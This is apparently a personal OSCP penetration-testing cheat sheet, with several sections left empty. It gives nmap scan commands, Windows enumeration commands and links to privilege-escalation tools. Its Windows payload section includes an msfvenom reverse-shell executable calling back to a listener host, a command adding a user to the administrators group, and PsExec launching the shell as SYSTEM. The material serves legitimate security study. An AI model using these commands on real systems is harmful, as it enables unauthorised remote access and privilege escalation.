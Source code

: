 # Pentest Toolkit / OSCP Cheatsheet

imma just throw things that work in here

# Table of Contents

+ [Reconaissance](#reconaissance)
    1. [Port Scanning](#port-scanning)
    2. [Directory Enumeration](#directory-enumeration)
    3. [Header Analysis](#header-analysis)
+ [Exploitation](#exploitation)
+ [Post-Exploitation Enumeration](#post-exploitation)
+ [Privilege Escalation](#privilege-escalation)
    1. [Linux](#linux-privesc)
    2. [Windows](#windows-privesc)
        - The Basics
        - Payloads
        - Privesc Enumeration Tools


## Reconaissance

### Port Scanning
full TCP scan
> sudo nmap -sC -sV -O --open -p- -oA nmap/full [targets]

full UDP scan
> sudo nmap -sU -p- -oA nmap/udp [targets]

scripts w/ ports
> sudo nmap --scripts vuln,safe,discovery -p \[ports] [targets]

### Directory Enumeration

### Header Analysis

## Exploitation
## Post-Exploitation
## Privilege Escalation 

### Linux Privesc

First and foremost, [g0tmi1k's blog](https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation) is more comprehensive than the commands I will list here.

### Windows Privesc

[FuzzySecurity's blog post](https://www.fuzzysecurity.com/tutorials/16.html)

[Tib3rius's Windows PrivEsc course](https://www.udemy.com/course/windows-privilege-escalation/)
- **The Basics**

**Your User**
> whoami
> whoami /priv
> net user [user]

**System Config**
> systeminfo | findstr /B /C:"OS Name" /C:"OS Version"
> ipconfig /all
> netstat -ano
> tasklist /SVC


- **Payloads**
msfvenom executable payload

> msfvenom -p windows/shell\_reverse\_tcp LHOST=10.10.10.2 LPORT=4444 -f exe -o reverse.exe

RDP- add user to administrators group first

> net localgroup administrators [user] /add

PsExec from Windows Sysinternals

> .\PsExec64.exe -accepteula -i -s C:\temp\reverse.exe

- **PrivEsc Enumeration Tools**
[PowerUp](https://raw.githubusercontent.com/PowerShellEmpire/PowerTools/master/PowerUp/PowerUp.ps1):
> powershell -exec bypass
> . .\PowerUp.ps1
> Invoke-Allchecks

[SharpUp](https://github.com/GhostPack/SharpUp):
> .\SharpUp.exe

[SeatBelt](https://github.com/GhostPack/Seatbelt) (more verbose, less targeted at privesc):
> .\SeatBelt.exe all
> .\SeatBelt.exe Nonstandard

[winPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS):
List checks
> .\winPEASany.exe -h
Single check
> .\winPEASany.exe userinfo
All checks
> .\winPEASany.exe


